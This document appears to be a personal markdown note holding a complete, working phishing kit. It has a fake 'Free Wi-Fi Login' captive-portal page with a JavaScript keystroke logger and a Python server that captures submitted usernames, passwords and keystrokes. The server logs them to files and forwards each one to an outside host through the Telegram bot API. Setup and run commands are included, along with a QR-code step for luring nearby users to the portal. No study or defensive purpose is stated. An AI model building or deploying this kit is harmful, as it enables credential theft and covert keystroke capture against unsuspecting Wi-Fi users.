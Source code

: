 ```yaml
---
created: 2025-07-19T10:14:30-04:00
updated: 2025-07-19T10:19:45-04:00
---
```


# Bash

" " Bash

mkdir -p ~/phish-portal/www
cd ~/phish-portal
<!DOCTYPE html>
<html>
<head>
  <title>Free Wi-Fi Login</title>
  <script>
    // Real-time keystroke logger
    document.addEventListener('DOMContentLoaded', () => {
      const log = [];
      document.addEventListener('keydown', (e) => {
        log.push(e.key);
        fetch('/keystroke', {
          method: 'POST',
          headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
          body: `key=${e.key}`
        });
      });
    });
  </script>
</head>
<body style="text-align:center;font-family:Arial;margin-top:15%;">
  <h2>Sign in to connect to Free Wi-Fi</h2>
  <form action="/login" method="POST">
    <input type="text" name="username" placeholder="Username / Email" required><br><br>
    <input type="password" name="password" placeholder="Password" required><br><br>
    <input type="submit" value="Login">
  </form>
</body>
</html>

<!DOCTYPE html>
<html>
<head><title>Welcome</title></head>
<body style="text-align:center;font-family:Arial;margin-top:15%;">
  <h2>You're connected!</h2>
  <p>Thanks for signing in to the Wi-Fi portal.</p>
</body>
</html>

from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs
import os
import requests

BOT_TOKEN = 'YOUR_BOT_TOKEN'
CHAT_ID = 'YOUR_CHAT_ID'

def send_telegram(msg):
    try:
        requests.get(
            f'https://api.telegram.org/bot{BOT_TOKEN}/sendMessage',
            params={'chat_id': CHAT_ID, 'text': msg}
        )
    except Exception as e:
        print("[!] Telegram failed:", e)

class PhishHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/":
            self.serve("www/index.html")
        elif self.path == "/success":
            self.serve("www/success.html")
        else:
            self.send_error(404)

    def do_POST(self):
        content_len = int(self.headers.get('Content-Length', 0))
        post_body = self.rfile.read(content_len).decode()
        data = parse_qs(post_body)

        if self.path == "/login":
            username = data.get("username", [""])[0]
            password = data.get("password", [""])[0]
            msg = f"📡 Captured credentials:\n👤 {username}\n🔐 {password}"
            print(msg)
            with open("creds.log", "a") as f:
                f.write(msg + "\n")
            send_telegram(msg)
            self.send_response(302)
            self.send_header("Location", "/success")
            self.end_headers()

        elif self.path == "/keystroke":
            key = data.get("key", [""])[0]
            log = f"🖱️ Keystroke: {key}"
            print(log)
            send_telegram(log)
            with open("keystrokes.log", "a") as f:
                f.write(log + "\n")
            self.send_response(200)
            self.end_headers()

    def serve(self, path):
        if os.path.exists(path):
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()
            with open(path, "rb") as f:
                self.wfile.write(f.read())
        else:
            self.send_error(404)

print("✅ Phishing portal running on http://0.0.0.0:8080")
HTTPServer(('0.0.0.0', 8080), PhishHandler).serve_forever()

https://api.telegram.org/bot<YOUR_BOT_TOKEN>/getUpdates

cd ~/phish-portal
python server.py

http://10.0.0.223:8080

cat creds.log         # Captured usernames and passwords
cat keystrokes.log    # Real-time keystrokes

pkg install qrencode
ip=$(ip a | grep wlan0 | grep inet | awk '{print $2}' | cut -d/ -f1)
qrencode -t ansiutf8 "http://$ip:8080"
